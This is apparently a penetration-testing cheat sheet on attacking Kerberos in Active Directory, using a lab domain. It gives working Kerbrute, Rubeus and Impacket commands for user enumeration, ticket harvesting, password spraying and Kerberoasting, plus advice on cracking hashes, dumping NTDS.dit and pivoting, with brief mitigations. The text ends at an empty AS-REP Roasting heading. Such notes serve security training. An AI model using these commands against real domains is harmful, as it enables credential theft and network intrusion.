 # Attacking Kerberos

## Attack Privilege Requirements

* Kerbrute Enumeration - No domain access required&#x20;
* Pass the Ticket - Access as a user to the domain required
* Kerberoasting - Access as any user required
* AS-REP Roasting - Access as any user required
* Golden Ticket - Full domain compromise (domain admin) required&#x20;
* Silver Ticket - Service hash required&#x20;
* Skeleton Key - Full domain compromise (domain admin) required

## Enumeration w/ Kerbrute

Brute force user accounts from a domain controller using a supplied wordlist:

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting & Brute-Forcing Tickets w/ Rubeus

Harvest for TGTs every 30 seconds:

```powershell
Rubeus.exe harvest /interval:30
```

## Brute-Forcing / Password-Spraying w/ Rubeus

{% hint style="info" %}
Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file
{% endhint %}

```powershell
Rubeus.exe brute /password:Password1 /noticket
```

This returns .kirbi ticket (TGT)

{% hint style="warning" %}
Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.
{% endhint %}

## Kerberoasting w/ Rubeus & Impacket

### Rubeus

Dump the Kerberos hash of any kerberoastable users:

```powershell
Rubeus.exe kerberoast
```

Now you can take the hash of the service and crack it (Hashcat mode 13100 for TGS-REP)

### Impacket

Dump the hash:

```bash
impacket-GetUserSPNs controller.local/Machine1:Password1 -dc-ip 10.10.2.205 -request
```

### What can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not.&#x20;

If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit.&#x20;

If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users.

### Kerberoasting Mitigation

* &#x20;Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
* &#x20;Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

## AS-REP Roasting w/ Rubeus

